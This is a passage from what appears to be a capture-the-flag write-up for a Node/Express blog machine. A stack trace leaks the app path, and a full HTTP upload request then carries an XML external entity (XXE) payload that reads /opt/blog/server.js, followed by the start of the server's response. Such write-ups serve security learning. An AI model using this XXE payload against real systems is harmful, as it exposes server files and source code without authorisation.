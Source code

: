 ```http
<body>
<pre>Error: Failed to lookup view &quot;articles/${path}&quot; in views directory &quot;/opt/blog/views&quot;<br> &nbsp; &nbsp;at Function.render (/opt/blog/node_modules/express/lib/application.js:580:17)<br> &nbsp; &nbsp;at ServerResponse.render (/opt/blog/node_modules/express/lib/response.js:1012:7)<br> &nbsp; &nbsp;at /opt/blog/routes/articles.js:81:17<br> &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:95:5)</pre>
</body>
</html>
```

This gave me the full path of the application on the server. I used that to try `index.js` again. Still no luck. Next, I tried `server.js`.

```http
POST /articles/xml HTTP/1.1
Host: target.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=---------------------------134965792736974121853184188709
Content-Length: 441

-----------------------------134965792736974121853184188709
Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post><title>aaa Post</title><description>Example Description</description><markdown>&file;</markdown></post>

-----------------------------134965792736974121853184188709--
```

It gave me the content of the Express server.

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 2946
ETag: W/"b82-3qAMAXZKj7NFbx0LiRm9SNwjQOc"
Date: Sat, 07 May 2022 20:26:11 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
    <title>Blog</title>
</head>
<body>
```
